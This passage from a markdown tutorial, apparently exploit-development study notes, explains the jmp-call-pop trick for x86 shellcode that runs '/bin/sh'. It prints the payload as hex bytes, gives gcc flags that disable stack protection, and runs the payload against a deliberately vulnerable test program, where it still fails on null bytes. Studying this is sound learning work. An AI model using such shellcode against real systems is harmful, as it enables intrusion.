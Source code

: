 - This is due to __Fixed references__.

### Solving fixed references with jmp-callback trick

- Check out `shellv2.asm`. It is revised shell, which will use little bit of indirection.
- `_start` doesn't do much, except to jump to `callback`.
- `callback` calls `callshell` which pushes the `"/bin/sh"` on the stack.
- This way you get reference to `"/bin/sh"` instead of some garbage.
- That's because `call` instruction doesn't only jump to specified label, but it will also __push onto the stack the return address.__
    - This return address is actually the string `"/bin/sh"`.
    - Then inside `callshell` this command is placed into `esi` register for further usage.

- Hex convert this program and put into `testerv2.c`.
- Compile it with:

```sh
$ gcc -m32 -fno-stack-protector -z execstack -Wno-format-security -g -mpreferred-stack-boundary=2 --static testerv2.c -o bin/testerv2
$ ./bin/testerv2
sh-5.2$ cal
     August 2024
Su Mo Tu We Th Fr Sa
             1  2  3
 4  5  6  7  8  9 10
11 12 13 14 15 16 17
18 19 20 21 22 23 24
25 26 27 28 29 30 31
```

- ~~If you compile it and run it well you will get `SEGFAULT` again...~~
- This time we get a functional shell!
- __The solution to segfault was__ modifying `char *code` to `char code[]`.
- It's simple, because first one tells `code` is a pointer to a char, second tells `code` is char array.
    - These two aren't the same!

## Null bytes are the issue!

- See the test drive program that will simulate being vulnerable, `vulnprog.c`.
- The point with `vulnprog.c` is to be able to execute our shellcode like this:

```sh
$ ./hexconverter bin/shellv2
\xeb\x20\x5e\x6a\x00\x56\xb8\x0b\x00\x00\x00\x89\xf3\x89\xe1\xba\x00\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00
$ ./bin/vulnprog $(printf "\xeb\x20\x5e\x6a\x00\x56\xb8\x0b\x00\x00\x00\x89\xf3\x89\xe1\xba\x00\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00")
-bash: warning: command substitution: ignored null byte in input
Segmentation fault (core dumped)
```

- Let's get into `gdb` to see where the real issue lies...
